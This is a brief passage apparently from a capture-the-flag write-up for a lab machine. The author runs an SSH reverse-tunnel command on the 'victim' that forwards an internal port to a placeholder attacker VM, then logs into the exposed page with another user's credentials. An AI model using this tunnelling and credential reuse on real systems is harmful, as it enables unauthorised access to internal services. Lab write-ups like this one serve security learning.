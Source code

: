 On the 'victim' machine I issued the command 'ssh -N -R ATTACKERVMIP:9001:127.0.0.1:9001 daz@ATTACKERVMIP'. Now on my attack VM I could web browse to 127.0.0.1:9001 and get access to the login page.

![login](/assets/images/chillhack/login.png)

I logged in with aurick credentials.

![9001](/assets/images/chillhack/9001.png)
